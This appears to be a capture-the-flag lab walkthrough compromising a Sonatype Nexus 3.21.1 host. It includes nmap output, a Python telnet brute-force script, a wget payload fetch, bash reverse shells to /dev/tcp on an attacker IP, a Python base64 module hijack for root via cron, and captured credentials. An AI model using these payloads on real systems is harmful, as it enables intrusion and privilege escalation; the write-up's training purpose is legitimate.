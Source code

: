 
# Export
```md
export IP="192.168.68.159"
export URL="http://192.168.68.159:80/FUZZ"
```

<hr>

# RCE
+ Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated) 
```bash
$ searchsploit sonatype
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)                                                                                                                    | java/webapps/49385.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

+ Modify code:

```bash
#CMD='wget 192.168.49.68:80/cmback.sh'
#CMD='bash cmback.sh'
```

+ Content of `cmback.sh`

```bash
$ cat cmback.sh 
bash -c "bash -i >& /dev/tcp/192.168.49.68/8081 0>&1"
```

+ Reverse shell

```bash
$ sudo nc -nlvp 8081
Listening on 0.0.0.0 8081
Connection received on 192.168.68.159 42742
bash: cannot set terminal process group (955): Inappropriate ioctl for device
bash: no job control in this shell
nexus@sona:~/nexus-3.21.1-01$
```

<hr>

# Local Enumeration
+ Check `/etc/passwd` file.

```bash
nexus@sona:~$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
nexus:x:1000:1000::/home/nexus:/bin/sh
sona:x:1001:1001::/home/sona:/bin/sh  
```

+ Running socket.
```bash
nexus@sona:/home/sona$ ss -anlt
State                    Recv-Q                   Send-Q                                     Local Address:Port                                      Peer Address:Port                   Process                   
LISTEN                   0                        1                                              127.0.0.1:40841                                          0.0.0.0:*                                                
LISTEN                   0                        50                                               0.0.0.0:8081                                           0.0.0.0:*                                                
```

+ Plaintext password?

```bash
nexus@sona:/dev/shm$ cat /home/nexus/nexus-3.21.1-01/system/users.xml
<users>
<id>1001</id>
<username>sona</username>
<password>KuramaThe9</password>
</users>
```

+ `sona` home directory

```bash
sona@sona:~$ ls -al
total 40
drwxrwxrw- 3 sona sona 4096 Aug 25 09:04 .
drwxr-xr-x 4 root root 4096 Feb 10  2021 ..
lrwxrwxrwx 1 root root    9 Feb 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 sona sona  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sona sona 3771 Feb 25  2020 .bashrc
-r--r--r-- 1 sona sona   33 Aug 25 06:30 local.txt
-r-xr----- 1 root sona  210 Feb 10  2021 logcrypt.py
-rw-r--r-- 1 sona sona  807 Feb 25  2020 .profile
drwxr-xr-x 2 root root 4096 Aug 25 09:04 __pycache__
-rw------- 1 sona sona 2481 Aug 25 09:04 .viminfo
```

+ `~/logcrypt.py`

```bash
sona@sona:~$ cat logcrypt.py 
#!/usr/bin/python3

import base64

log_file = open('/var/log/auth.log','rb')
crypt_data = base64.b64encode(log_file.read())
cryptlog_file = open('/tmp/log.crypt','wb')
cryptlog_file.write(crypt_data)
```

+ Is crontab running?

```bash
sona@sona:~$ ls -al /tmp/log.crypt
-rw-r--r-- 1 root root 49820 Aug 25 08:55 /tmp/log.crypt
sona@sona:~$ date
Wed 25 Aug 2021 08:56:01 AM UTC
```

+ Malicious `base64.py`

```bash
sona@sona:~$ chmod 776 .
sona@sona:~$ nano base64.py 
#!/usr/bin/python3

import os

def b64encode(arg):
    os.system("bash -c 'bash -i >& /dev/tcp/192.168.49.68/23 0>&1'")
```

+ Root revere shell

```bash
$ sudo nc -nlvp 23
Listening on 0.0.0.0 23
Connection received on 192.168.68.159 45534
bash: cannot set terminal process group (44844): Inappropriate ioctl for device
bash: no job control in this shell
root@sona:~# id    
id
uid=0(root) gid=0(root) groups=0(root)
```

<hr>

# Credentials
→ (Nexus Backup Manager): `blackleo`
→ (Web app): `admin:3e409e89-514c-4f9f-955e-dfa5c4083518`
→ (Local user): `sona:KuramaThe9`

<hr>

# Nmap

```bash
root@kali:~/sona# nmap -sV -sC --open 192.168.59.159 -oA nmap/services

PORT     STATE SERVICE REASON         VERSION
23/tcp   open  telnet? syn-ack ttl 64
8081/tcp open  http    syn-ack ttl 64 Jetty 9.4.18.v20190429
|_http-favicon: Unknown favicon MD5: 9A008BECDE9C5F250EDAD4F00E567721
| http-methods: 
|_  Supported Methods: GET HEAD
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-server-header: Nexus/3.21.1-01 (OSS)
|_http-title: Nexus Repository Manager
```

<hr>

# HTTP
+ `robots.txt`

```md
Disallow: /repository/
Disallow: /service/
```

+ Application → `Nexus/3.21.1-01`  → Authenticated RCE 
+ Custom password brute force script:

<hr>

# Telnet
+ Telnet's running recovery `backup`.
```bash
$ telnet 192.168.68.159 23
Trying 192.168.68.159...
Connected to 192.168.68.159.
Escape character is '^]'.
====================
NEXUS BACKUP MANAGER
====================
ANSONE  Answer question one
ANSTWO  Answer question two
BACKUP  Perform backup
EXIT    Exit
HELP    Show help
HINT    Show hints
RECOVER Recover admin password
RESTORE Restore backup
ANSONE
Please Enter Answer
ANSONE <answer>
test
Incorrect
Connection closed by foreign host.
```


+ Brute force script

```py
#!/usr/bin/env python3
import socket
import sys
from time import sleep

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
port = 23
IP = "192.168.68.159"
pwd_f = sys.argv[1]

with open(pwd_f, 'r', encoding='ISO-8859-1') as pwds:
    pwds_read = pwds.readlines()
    for pwd in pwds_read:
        pwd = pwd.strip()
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((IP, port))
            s.recv(1024)
            s.recv(1024)
            try:
                print(f"Trying password: {pwd}")
                option = "ANSONE"
                s.send(bytes(option, "latin-1"))
                s.recv(1024)
                sleep(1)
                s.send(bytes(pwd, "latin-1"))
                d = s.recv(2048)
                if not "Incorrect" in d.decode():
                    print(f"Found!: {pwd}")
                    break
                else:
                    pass
            except:
                pass
```


+ Brute force `ANSONE` → `leo`

```bash
$ python3 ansone.py sign.txt 
Trying password: aries
[...]
Found!: leo
```

+ Brute force `ANSTWO` → `black`

```bash
$ python3 anstwo.py colors-list.txt 
Trying password: alizarin
[...]
Found!: black
```

+ Guessing `RECOVER` → `blackleo`